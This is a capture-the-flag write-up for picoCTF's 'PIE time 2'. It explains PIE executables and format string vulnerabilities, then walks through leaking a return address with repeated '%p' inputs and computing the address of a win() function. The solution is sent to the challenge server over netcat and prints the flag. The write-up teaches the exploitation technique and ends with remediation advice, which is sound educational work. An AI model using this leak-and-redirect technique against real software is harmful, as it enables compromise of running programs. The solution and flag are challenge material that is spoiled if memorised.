

# PicoCTF: PIE time 2

## Context

We are provided with a compiled binary and the source code (`vuln` and `vuln.c`), as well as a complimentary server and port to connect to via netcat. We only connect via netcat when we are ready to get the flag. 

When we do `./vuln` we are prompted to enter a name and then an address. If the address is not correct, we segfault:
```text
mms2379@spoc:~/ctf/pie_time2$ ./vuln
Enter your name:name
name
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

## Background Information: PIE executables and format string vulnerabilities

Executables can come in different forms, notably PIE (position independent executable) and no-PIE. If we compile a PIE executable, it means that that whole chunk of code for the program can be placed anywhere in memory. This enables ASLR (address space layout randomization) which randomizes the memory address of key components of our program, like where its stack, heap, etc. begin. A no-PIE executable's code will be placed at a fixed address. That means that we cannot use ASLR.

Below, I've provided examples of objdumped PIE and no-PIE executables. Note how the no-PIE executable starts at address 0x401000, while the PIE executable starts at 0x1000 so it's able to placed at a random memory address later.

``` text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-no-pie

main-no-pie:     file format elf64-x86-64


Disassembly of section .init:

0000000000401000 <_init>:
  401000:       f3 0f 1e fa             endbr64 
  401004:       48 83 ec 08             sub    $0x8,%rsp
  401008:       48 8b 05 e9 2f 00 00    mov    0x2fe9(%rip),%rax        # 403ff8 <__gmon_start__@Base>
  40100f:       48 85 c0                test   %rax,%rax
  401012:       74 02                   je     401016 <_init+0x16>
  401014:       ff d0                   call   *%rax
  401016:       48 83 c4 08             add    $0x8,%rsp
  40101a:       c3                      ret
...

```

```text
mms2379@spoc:~/temp/studying/linking2$ objdump -d main-dyn

main-dyn:     file format elf64-x86-64


Disassembly of section .init:

0000000000001000 <_init>:
    1000:       f3 0f 1e fa             endbr64 
    1004:       48 83 ec 08             sub    $0x8,%rsp
    1008:       48 8b 05 d9 2f 00 00    mov    0x2fd9(%rip),%rax        # 3fe8 <__gmon_start__@Base>
    100f:       48 85 c0                test   %rax,%rax
    1012:       74 02                   je     1016 <_init+0x16>
    1014:       ff d0                   call   *%rax
    1016:       48 83 c4 08             add    $0x8,%rsp
    101a:       c3                      ret
  ...

```

A format string vulnerability takes advantage of C's `printf(...)` to leak memory addresses. For example, if a program asks for user input and then prints that input back to the user using `printf(...)`, the user can supply a format string (`%s`, `%lx`, `%p`, etc.) so that their provided information gets printed in that form. Note that this is only possible when the `printf(...)` function **does not** already have a format string specifier. See the example below from OWASP.

``` C
#include  <stdio.h> 
void main(int argc, char **argv)
{
	// This line is safe
	printf("%s\n", argv[1]);

	// This line is vulnerable
	printf(argv[1]);
}
```
`./example "Hello World %p %p %p %p %p %p"` will result in: `Hello World 000E133E 000E133E 0057F000 CCCCCCCC CCCCCCCC CCCCCCCC`.

## Vulnerability

Recall that we are asked to enter a name when we start the program. Let's take a closer look at the source code to see how we parse this user input. (See the full source code at `pie_time2/vuln.c`). We see that `main` calls `call_functions`, which does the user input handling:

```C
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

...

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

In particular, we notice that `printf` looks a little strange: it has no format specifier. My installed Clangd helped me get some information about this:



We identify this as a format string vulnerability that may help us get more information. Notably, since we also aren't given the address of main like in PIE time 1, we may be able to use this to get more information about the run-time addresses of `vuln`. 

## Exploitation

I decided to use OWASP's format string vulnerability example on `vuln`:

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p
0x70252070 0xfbad2288
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

Indeed, we may use this to get some more information. However, we need to know what address we're looking for ahead of time. I headed to `vuln`'s disassembly for more information. (See the full disassembly at `pie_time2/vuln_dump.txt`)

```
0000000000001400 <main>:
    1400:	f3 0f 1e fa          	endbr64 
    1404:	55                   	push   %rbp
    1405:	48 89 e5             	mov    %rsp,%rbp
    ...
    143c:	e8 86 fe ff ff       	call   12c7 <call_functions>
    1441:	b8 00 00 00 00       	mov    $0x0,%eax
    1446:	5d                   	pop    %rbp
    1447:	c3                   	ret    
    1448:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
    144f:	00
```

`main` starts at 0x1400 and calls `call_functions` at 0x143c, and the line right after the function call is at 0x1441. Therefore, I decided to look for addresses that might end in these numbers.

```
mms2379@spoc:~/ctf/pie_time2$ ./vuln 
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x600f8ae552a1 0xfbad2288 0x600f8ae552dc (nil) 0x600f8ae552a0 (nil) 0x70f4a581b780 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x7f000a702520 0x7ffdd74ed6e8 0xc6ffdfe5a02e6b00 0x7ffdd74ed5d0 0x600f50bea441 0x1
 enter the address to jump to, ex => 0x12345: 0x0
Segfault Occurred, incorrect address.
```

After printing some more addresses (20, to be exact), I see this address: 0x600f50bea441. This matches the address of the line directly after the `call_functions` call, and it is not as large as the other numbers, so it's likely not a stack address. Let's calculate the difference between 0x1441 and the top of the `win` function: 0x1441 - 0x136a = 0xd7. On the next run of the program, let's try doing the address at the 19th `%p` - 0xd7 to see if that gets us to `win`:

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil)
```

We do: 0x5a1c2f154441 - 0xd7 = 0x5a1c2f15436a

```
mms2379@spoc:~/ctf/pie_time2$ nc rescued-float.picoctf.net 62828
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
0x5a1c306e92a1 (nil) 0x5a1c306e92dd 0x7fffa2f42b10 0x7c 0x7fffa2f86228 0x760d6012a6a0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x5a1c2f1541c0 0x24da89febb514f00 0x7fffa2f42b70 0x5a1c2f154441 (nil) 
 enter the address to jump to, ex => 0x12345: 0x5a1c2f15436a
You won!
picoCTF{p13_5h0u1dn'7_134k_2509623b}
```

## Remediation

The big vulnerability here is the format string vulnerability. It allowed us to leak addresses and therefore go to other functions with some simple calculations. Always use format specifiers in your `printf` statements!

# Sources/Credits

Written by Madalina Stoicov

- https://cs4157.github.io/www/2025-1/lect/17-linking-2.html 
- https://owasp.org/www-community/attacks/Format_string_attack 
